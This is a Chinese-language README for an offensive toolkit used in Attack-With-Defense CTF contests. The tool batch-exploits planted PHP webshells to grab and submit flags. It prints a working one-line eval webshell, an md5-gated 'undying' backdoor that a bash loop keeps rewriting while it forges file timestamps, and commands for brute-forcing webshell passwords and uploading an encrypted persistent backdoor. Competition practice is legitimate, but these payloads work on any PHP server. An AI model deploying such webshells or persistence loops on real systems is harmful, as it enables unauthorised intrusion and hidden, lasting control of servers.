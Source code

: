     AWD Predator Framework v2.0                   

              --code by AresX       
			  

* 在AWD攻防赛中通过给定的webshell批量获取提交flag

* 为不会现场挖洞写脚本的菜鸡准备

* 用py去实现菜刀是一件代码量很大的事情，懒得做也不会做(以后可能会做)，所以需要手动设置一句话的功能函数和方法

* 针对简单的单参数传递的一句话和特定的加密一句话

# 启动

    python console.py


# webshell

**添加已知的webshell,仅支持php，GET和POST方法使用eval和exec函数的一句话木马**

### 添加webshell

命令`add`

使用方法: `add [shell path] [pwd] [type(eval/exec)] [method(get/post)]`

如一句话为`<?php @eval($_POST[‘cmd’]);?>` 路径为`x.x.x.x:8001://index/cmd.php`

一句话密码为`cmd` 功能函数为`eval` 方法为`POST`

example:`add x.x.x.x:8001://index/cmd.php cmd eval post`

命令执行后webshell的路径和密码会以字典的形式储存

**处理了使用md5加密的eval函数一句话,**

get方法在添加时,可添加带md5加密的密码的路径

如:`add :8003/x.php?pass=fuckyou x eval get` 

post方法请在`flag.py`中修改`for j in POST_eval_shells_path_pwd:`循环中的`eval_POST_data['pass']`为自己的密码，密码将被自动传递

post添加方法同`add x.x.x.x:8001://index/cmd.php cmd eval post`

### 显示添加的webshell

命令`show`

将显示所有添加的webshell路径和密码

### 保存,读取,清空webshell
*保存已经添加的webshell路径和密码，方便临场修改代码*

保存:`save`
读取:`load`
清空:`clear` //清空不会清空已经储存的webshell,除非在清空后执行保存命令

### Webshell爆破

*采用一种提速千倍的爆破方法*

命令: `crack http://xxx.php`

字典储存在`auxi/pwd.txt`中，可自行完善字典


# iplist

**根据输入生成指定段的ip列表**

### 生成列表

命令: `ip x.x.a-b.x`

可设定acb任意段的ip列表,使用'-'连接左右区间

### 添加指定ip

命令: `ip x.x.x.x`

执行命令后,`x.x.x.x`将被添加到ip列表中,会自动去除重复项和进行排序

### 查看已经生成的列表

命令: `showip`

显示生成的ip列表

### 清空ip列表

命令: `clearip`

### 去掉指定ip

命令: `removeip x.x.x.x`

# flag

**通过iplist和webshell获取flag，将获取到的flag提交到指定服务器**

### 获取flag
*遍历iplist中所有的地址尝试通过所有已经添加的webshell获取flag,在执行此命令前需设定iplist，否则报错*

命令:`getflag [command]`

example:`getflag curl www.baidu.com/flag.txt`

获取命令如果不需要修改只需完整输入一次，之后可直接执行`getflag`

### 查看flag

命令: `showflag`



### 提交flag

**攻防赛环境中获取到的flag通常不是标准格式,`flag.py`中的`submit_flag`函数中已经使用了`re.compile(r'flag{\w+?}')`尝试匹配标准flag格式**
**如果出现问题,请自行在`flag.py`文件的`submit_flag`函数中使用正则匹配获得标准flag进行提交**

*提交flag 需设定提交flag的链接，以及cookie和data,使用"?"替换flag在data中所在的参数*

命令: `submit [url] [cookie] [data](use '?' replace the flag )`

example: `submit http:xxx.xxx.xx/xx/ JSESSIONID=A6F8;route=6cf03 pid=-1&pidName=&flag=?`
**去掉cookie中的空格,data中flag所在位置需用?代替！**

提交命令如果不需要修改只需完整输入一次，之后可直接执行`submit`

submit完成之后会有清空flag的选项(y/n)

### 清空flag

命令: `clearflag`

# 上传

## 文件木马上传

命令: `upload <file>(default='auxi/shell.php')`

默认上传文件为`auxi/shell.php` 如需使用修改默认文件,默认文件为加密不死马

如需上传其他文件,将文件储存在`auxi/`目录下

执行`upload xxx`即可

如上传默认文件,直接执行`upload`

如果文件上传成功，会自动访问一次上传的文件，激活不死马

## 命令木马上传

命令: `cupload`

连接一句话执行bash命令生成不死马`.index1.php`

bash命令为:`system('while true;do echo \'<?php if(md5($_POST["pass"])=="3a50065e1709acc47ba0c9238294364f"){@eval($_POST[a]);} ?>\' >fuck.php;touch -m -d "2017-11-12 10:10:10" .index1.php;sleep 1;done;');`

如果要修改请修改`command.py`中的`data[z0]`

---


### 目录结构
```
###########
├── Readme.md               //帮助文档 
├── console.py              //启动
├── core                    // 核心模块
│   ├── shells.py           //写入，读取，保存webshell
│   ├── flag.py             // 获取，提交flag
│   ├── iplist.py           // 生成ip列表   
│—— auxi                    //辅助模块
|   |—— upload.py           //webshell上传功能
|   |—— shell.php           //默认上传文件
|   |—— webshell.txt        //一句话储存路径  
|   |—— command.py          //上传bash不死马
|—— data                    //webshell数据储存

```
